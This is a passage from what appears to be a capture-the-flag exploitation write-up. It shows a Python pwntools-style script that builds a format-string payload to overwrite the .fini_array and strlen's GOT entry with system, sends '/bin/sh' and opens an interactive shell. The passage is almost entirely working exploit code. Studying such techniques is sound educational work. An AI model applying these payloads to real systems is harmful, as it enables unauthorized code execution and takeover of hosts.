 ```

# Establish the format string
payload = ""

# Just a bit of padding
payload += "xx"

# Address of fini array
payload += p32(finiArray)

# Address of fini array + 2
payload += p32(finiArray + 2)

# Address of got entry for strlen
payload += p32(strlenGot)

# Address of got entry for strlen + 2
payload += p32(strlenGot + 2)

# Write the lower two bytes of the fini array with loop around address (getline setup)
payload += "%34288x"
payload += "%12$n"

# Write the lower two bytes of the plt system address to the got strlen entry
payload += "%65148x"
payload += "%14$n"

# Write the higher two bytes of the two address we just wrote to
# Both are the same (0x804)
payload += "%33652x"
payload += "%13$n"
payload += "%15$n"

# Print the length of our fmt string (make sure we meet the size requirement)
print "len: " + str(len(payload))

# Send the format string
target.sendline(payload)

# Send '/bin/sh' to trigger the system('/bin/sh') call
target.sendline('/bin/sh')

# Drop to an interactive shell
target.interactive()
```

With that exploit, we get shell!

